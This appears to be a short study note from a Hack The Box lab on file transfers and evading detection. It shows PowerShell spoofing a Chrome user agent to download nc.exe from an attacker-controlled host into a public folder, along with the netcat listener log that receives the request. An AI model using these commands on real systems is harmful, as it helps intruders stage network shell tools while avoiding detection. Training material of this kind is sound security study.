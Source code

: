 ```yaml
---
Title: HTB\File_Transfers\evading detection
tags:
  - os/windows
  - os/linux- cybersec
source: HTB\File_Transfers\evading detection
---
```


# HTB\File_Transfers\evading detection

> Źródło: `HTB\File_Transfers\evading detection`

Listing user agents
```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

Invoking Invoke-WebRequest to download nc.exe using chrome agent
```powershell
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

```bash
Ovas420@htb[/htb]$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```


**Powiązane:** [[Graph-Home]] [[OS-Windows]] [[OS-Linux]]
